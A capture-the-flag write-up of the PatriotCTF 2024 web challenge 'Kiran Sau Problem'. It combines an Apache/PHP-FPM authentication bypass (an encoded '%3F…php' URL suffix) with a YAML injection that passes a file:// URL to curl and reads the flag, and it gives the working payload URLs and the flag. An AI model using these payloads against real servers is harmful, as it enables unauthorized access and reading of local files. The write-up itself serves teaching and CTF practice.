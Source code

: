 ```yaml
---
title: PatriotCTF 2024 Web Kiran Sau Problem

categories: [Apache, Web Pentest, CTF, Misconfig, PHP]

tags: [CURL, PHP, Web, Pentest, APACHE, CTF]

image: /assets/img/uploads/PCTF.png

---
```

# TLDR
ACL Misconfigure -> YAML input issue 

![[Pasted image 20240927024141.png]]
## Part 1
```bash
# create .htpasswd file
RUN htpasswd -bc /etc/apache2/.htpasswd admin TEST_PASSWORD
```
index.php have nothing to show while challenge.php shows basic login form and using given password in the dockerfile works locally but not on the web challenge site.

```php
# Flag location
RUN mkdir /get-here \
    && echo "PCTF{TEST_FLAG}" > /get-here/flag.txt
```
flag is stored inside `/get-here/flag.txt`

000-default.conf
```bash
<Files "challenge.php">
    AuthType Basic 
    AuthName "Admin Panel"
    AuthUserFile "/etc/apache2/.htpasswd"
    Require valid-user
</Files>
```
bruteforce password is an option but probably only do when last resort

According to hacktricks : 
#### 
**ACL Bypass**

It's possible to access files the user shouldn't be able to access even if the access should be denied with configurations like:

```bash
<Files "admin.php">
    AuthType Basic 
    AuthName "Admin Panel"
    AuthUserFile "/etc/apache2/.htpasswd"
    Require valid-user
</Files>
```

This is because by default PHP-FPM will receive URLs ending in `.php`, like `http://server/admin.php%3Fooo.php` and because PHP-FPM will remove anything after the character `?`, the previous URL will allow to load `/admin.php` even if the previous rule prohibited it.

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/apache#acl-bypass
(YES I copied everything :D)


### Crafted Payload
```
http://chal.competitivecyber.club:8090/challenge.php%3Fanything.php
```
with this payload we are able to authenticated into challenge page

## Part 2
```php
$input = $_GET['country'];
$url = $_GET['url'];
```
Reading the source code reveals that there is two GET variables we can use.


```yaml
$yaml = <<<EOF
- country: $input
- country_code: $countryList[$input]
EOF;
```
Each input was passed into the yaml file and no input validation was done


```php
if (isset($input)) {
    if (array_key_exists($parsed_arr[0]['country'], $countryList)) {
        echo "The country code for ".$parsed_arr[0]['country']." is ". $cc.'<br>';
        run($cc, $url);
```

```
Afghanistan%20
```
Therefore we can add more into the yaml entry by abusing space aka %20 by adding in nothing


```yaml
- country: Afghanistan
- country_code: 
```
Expected resulted modified yaml entry


```php
function run($cc, $url) {

    echo "Country code: ".$cc."<br>";
    if (!$cc) {
        system(escapeshellcmd('curl '.$url));
    } 
    return;
}
```
This will then trigger `!$cc` 


### Final payload
```
curl -v "http://chal.competitivecyber.club:8090/challenge.php%3Fooo.php?country=Afghanistan%20&url=file:///get-here/flag.txt"

PCTF{Kiran_SAU_Manifested}
```
Using local file read function of curl `file://` to get the flag
